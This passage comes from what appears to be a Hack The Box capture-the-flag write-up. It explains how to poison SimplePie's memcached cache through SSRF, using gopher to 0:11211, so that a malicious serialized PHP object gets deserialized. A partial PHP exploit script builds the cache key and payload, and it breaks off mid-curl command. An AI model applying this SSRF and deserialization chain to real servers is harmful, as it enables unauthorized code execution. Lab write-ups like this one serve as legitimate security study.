 You'll get the following response in `debug.php`.

{% include image.html image_alt="416f2186.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/416f2186.png" %}

Well, how do you interpret the response? For that, you need to dig into the source code of `SimplePie`'s `SimplePie_Cache_Memcache` [class](https://github.com/simplepie/simplepie/blob/master/library/SimplePie/Cache/Memcache.php).

{% include image.html image_alt="95504a30.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/95504a30.png" %}

The left column, `xct_7f123f6a2e(...)`, represents the key and the column next to it represents the value, as you are probably aware, `memcached` operates in key-value pair. What is this value? According to the code, this value is the serialized string of an array, representing a `SimplePie` Atom/RSS feed.

In summary, the response you see in `debug.php` is an indication that the key-value pair was retrieved from `memcached`, and that `SimplePie` had unserialized the array.

{% include image.html image_alt="638bf754.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/638bf754.png" %}

The big question is—how do we get a malicious serialized PHP object into `memcached` such that `SimplePie` retrieves it instead?

### Memcached SSRF through `curl`

I was wondering what's the purpose of `curl` in `template.php` since it's only used once in `rss_template.php` at the following line:

```
$data = url_get_contents($url);
```

If I'd to guess, I'd say that's probably the intended way to preload `memcached` with the malicious serialized PHP object. There's a way to bypass the filters using `http://0:11211` like so. In Linux, `0` represents the `localhost`.

{% include image.html image_alt="636b3a97.png" image_src="/ee0b9ede-f5a3-41e3-b2c8-e896ab653ff8/636b3a97.png" %}

So, if it I can pass such an URL to `curl` via `custom_feed_url`, I should be able to preload the memcache. One more thing, I need a plaintext protocol that'll allow me to directly write data to `memcached` like so:

```
<scheme>://0:11211/<path>
```

After some experimentation, `gopher` is selected and we have to prepend another slash to `<path>`. Armed with this insight, I wrote the following PHP script to exploit it.

```php
<?php

include('template.php');

$feed = 'http://10.10.16.16:8000/feed.xml';
$type = 'spc';
$key  = "xct_" . md5(md5($feed) . ':' . $type);

$crlf = '%0D%0A';
$space = '%20';
$payload = serialize(new TemplateHelper($argv[1], $argv[2]));
$length = strlen($payload);
$payload = rawurlencode($payload);

/* preload memcache */
shell_exec('curl \\' .
    '-s \\' .
```

[1]: https://www.hackthebox.eu/home/machines/profile/252
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/home/users/profile/13569
[4]: https://www.hackthebox.eu/